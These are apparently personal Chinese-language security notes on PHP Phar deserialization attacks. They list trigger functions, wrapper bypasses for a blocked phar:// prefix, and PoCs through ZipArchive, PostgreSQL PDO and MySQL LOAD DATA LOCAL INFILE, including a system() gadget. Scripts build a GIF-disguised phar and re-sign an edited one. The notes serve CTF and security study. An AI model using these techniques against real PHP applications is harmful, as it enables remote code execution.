 # 文章
[浅析Phar反序列化 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/305292.html)<br />[Phar与Stream Wrapper造成PHP RCE的深入挖掘 - zsx’s Blog](https://blog.zsxsoft.com/post/38)<br />[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)<br />[SUCTF 2019 出题笔记 & phar 反序列化的一些拓展 - 先知社区](https://xz.aliyun.com/t/6057)
# 能触发Phar反序列的一些函数

- fileatime / filectime / filemtime
- stat / fileinode / fileowner / filegroup / fileperms
- file / file_get_contents / readfile / fopen`
- file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable
- parse_ini_file
- unlink
- copy
- finfo_file / finfo_buffer / mime_content_type
#### exif

- exif_thumbnail
- exif_imagetype
#### gd

- imageloadfont
- imagecreatefrom***
#### hash

- hash_hmac_file
- hash_file
- hash_update_file
- md5_file
- sha1_file
#### file / url

- get_meta_tags
- get_headers
#### standard

- getimagesize
- getimagesizefromstring
#### zip   Bzip / Gzip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
#### phar://不能出现在头几个字符的绕过
可以通过伪协议进行绕过
```powershell
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar:///home/sx/test.phar/test.txt
```
#### Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
当然，pgsqlCopyToFile和pg_trace同样也是能使用的，只是它们需要开启phar的写功能。
#### MySQL
还有什么骚操作呢？<br />……MySQL？<br />走你！<br />我们注意到，LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper. 让我们测试一下。
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```
再配置一下mysqld。
```
[mysqld]
local-infile=1
secure_file_priv=""
```
……然后，走你！<br />![image.png](./images/20231017_2356574884.png)

# 脚本
```php
<?php
  class User {
  Public $name;
  }

@unlink("test.phar");
$phar = new Phar("test.phar"); //后缀名必须为phar，生成后可以随意修改
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new User();   
$o->name = 'JrXnm';
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
rename("test.phar", "test.gif");
```
```php
from hashlib import sha1
f = open('./test.gif', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
print(s)
h = f[-8:] # 获取签名类型以及GBMB标识
print(h)
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('datou.gif', 'wb').write(newf) # 写入新文件
```
